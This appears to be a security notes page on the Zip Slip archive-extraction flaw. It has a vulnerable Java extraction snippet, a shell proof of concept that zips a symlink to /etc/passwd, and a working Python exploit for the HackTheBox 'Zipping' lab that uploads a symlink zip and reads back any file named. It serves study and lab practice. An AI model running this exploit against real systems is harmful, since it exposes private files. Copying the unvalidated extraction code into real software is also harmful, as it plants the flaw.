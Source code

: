 Zip Slip is a widespread critical archive extraction vulnerability, allowing attackers to write arbitrary files on the system, typically resulting in remote command execution. It was discovered and responsibly disclosed by the Synk Security team ahead of a public disclosure on June 5th, 2018, and affects thousands of projects, including ones from HP, Amazon, Apache, Pivotal and many more. 

The vulnerability has been found in multiple ecosystems, including JavaScript, Ruby, .NET and Go, but is especially prevalent in Java, where there is no central library offering high level processing of archive (e.g zip) files. The lack of such a library led to vulnerable code snippets being hand-crafted and shared among developer communities such as StackOverFlow.

The vulnerability is exploited using a specially crafted archive that holds directory traversal filenames (e.g. ../../evil.sh). The Zip Slip vulnerability can affect numerous archive formats, including tar, jar, war, cpio, apk, rar, and 7z.

Here is a vulnerable code example showing a ZipEntry path being concatenated to a destination directory without any path validation. Code similar to this has been found in many repositories across many ecosystems, including libraries which thousands of applications depend on. 

```
	Enumeration<ZipEntry> entries = zip.getEntries();
	while (entries.hasMoreElements()) { 
		ZipEntry e= entries.nextElement();
		File f = new File(destinationDir, e.getName());
		InputStream input = zip.getInputStream(e);
		IOUtils.copy(input, write(f));
		}
```

POC:
```
┌──(ani㉿neo)-[~/HTB/Zipping]
└─$ ln -rs /etc/passwd 1.pdf

┌──(ani㉿neo)-[~/HTB/Zipping]
└─$ zip --symlinks poc.zip ./1.pdf
  adding: upload.pdf (stored 0%)

┌──(ani㉿neo)-[~/HTB/Zipping]
└─$ unzip -l poc.zip
Archive:  poc.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       35  2023-11-13 13:24   1.pdf
---------                     -------
       35                     1 file

```


LFI using ZipSlip: (HTB Box Zipping):
```
import os
from bs4 import BeautifulSoup
import requests
import shutil
import asyncio

async def makefile(file_to_read):
        if os.path.exists("tmp"):
                shutil.rmtree("tmp")
        if os.path.exists("sym.zip"):
                os.remove("sym.zip")
        if os.path.exists("symlink.pdf"):
                os.remove("symlink.pdf")
        if not os.path.exists("tmp"):
                os.mkdir("tmp")
        print("Creating symlink...")
        os.chdir("tmp/")
        os.system(f"ln -s {file_to_read} symlink.pdf")
        print("Zipping")
        os.system(f"zip -r --symlinks sym.zip symlink.pdf")
        print("Done! Zip file: sym.zip")

        print("Uploading file...")
        MIP = "10.10.11.229"
        file = {'zipFile': ('sym.zip', open('sym.zip','rb'), 'application/zip'),
                'submit': (None, '')
                }
        await upload(file, MIP)

async def upload(file, MIP):
        headers = {"Host":MIP,"User-Agent":"Mozilla/5.0 (X11;Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"}
        s = requests.Session()
        r = s.get(f"http://{MIP}",headers=headers)
        r = s.get(f"http://{MIP}/upload.php", headers=headers)
        r = s.post(f"http://{MIP}/upload.php", files=file, headers=headers)

        soup = BeautifulSoup(r.text,features="lxml")
        uuid=""

        for a in soup.find_all("a",href=True):
                if "uploads" in a['href']:
                        uuid = a['href'].split("/")[1]
                        print("File UUID: ",uuid)
                        print("\nReading File...")
                        r = s.get(f"http://{MIP}/uploads/{uuid}/symlink.pdf")
                        print(r.text)

async def main():
        file_to_read = input("File to read: ")
        await makefile(file_to_read)

asyncio.run(main())
```

Sources:
https://github.com/snyk/zip-slip-vulnerability
https://infosecwriteups.com/zip-slip-vulnerability-064d46ca42e5